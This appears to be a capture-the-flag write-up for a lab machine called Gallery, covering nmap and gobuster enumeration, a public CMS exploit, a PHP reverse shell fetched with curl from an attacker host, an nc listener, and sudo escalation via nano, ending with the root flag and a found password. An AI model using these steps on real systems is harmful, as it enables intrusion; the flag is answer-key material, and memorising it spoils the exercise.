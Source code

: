## Gallery


1. Enumerate with nmap, ports 80 and 8080 are open
```
root@ip-10-10-199-150:~# nmap -sS -sV 10.10.187.97

Starting Nmap 7.60 ( https://nmap.org ) at 2022-03-22 16:51 GMT
Nmap scan report for ip-10-10-187-97.eu-west-1.compute.internal (10.10.187.97)
Host is up (0.0012s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 02:C9:D8:1F:EB:1F (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.40 seconds
```

2. Run gobuster
```
root@ip-10-10-199-150:~# gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.187.97
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.187.97
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2022/03/22 16:53:09 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/gallery (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2022/03/22 16:53:12 Finished
===============================================================
```

3. Navigate to `/gallery` and we find that it's a content management system. It's vulnerable to a SQL injection that will let us login automatically, but if we do that there's no way of retrieving the password hashes, which means we need to get a shell. Do some research and find an [exploit](https://www.exploit-db.com/exploits/50214). I modified the URLs inside the script to work for this CTF. Run it and it'll upload a script and give you a URL that lets you run commands on the server.
4. Simply entering a reverse shell command into the URL doesn't seem to work, so let's upload a php reverse shell into the server. First, download it from [github](https://github.com/pentestmonkey/php-reverse-shell). Then modify the IP address and port to point to your machine, create a web server on that directory with `python3 -m http.server`, and download it onto the target machine with `curl%20http://<attacker ip address>:8000/php-reverse-shell.php%20%3E%20php_shell.php`
5. Now go to `http://<target ip address>/gallery/uploads/` and you should see your shell. Start a nc listener with `nc -nvlp <port>` and run the reverse shell on the server by clicking on it. Once you get the shell, stabilize it with `python3 -c 'import pty; pty.spawn("/bin/bash")'`
5. **[Upgrade your shell to a fully interactive tty now](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)**
6. Do some information gathering, and we find that there's two folders in `/home`, `ubuntu` and `mike`. We can't access `ubuntu`, and while we can view the contents of `mike` we can't do much else
7. Download [Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), download it onto the victim using wget, and run it. It finds a password in a history file `b3stpassw0rdbr0xx`
```
Searching passwords in history files
      @stats   = stats
      @items   = { _seq_: 1  }
      @threads = { _seq_: "A" }
sudo -lb3stpassw0rdbr0xx
sudo -l
```
8. Once logged in as mike, use `sudo -l` to find that we can run `rootkit.sh` as root
```
mike@gallery:/opt$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```
9. View it to to find that nano is being used to view a file. We find through [GTFObins](https://gtfobins.github.io/gtfobins/nano/) that we can break out of nano and spawn a shell
```
mike@gallery:/opt$ cat rootkit.sh 
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```
10. Run the program with `sudo -u root /bin/bash /opt/rootkit.sh`. If prompted, enter the password. Choose the `read` option and then follow the steps on GTFObins.
11. We find that the root flag is `THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}`
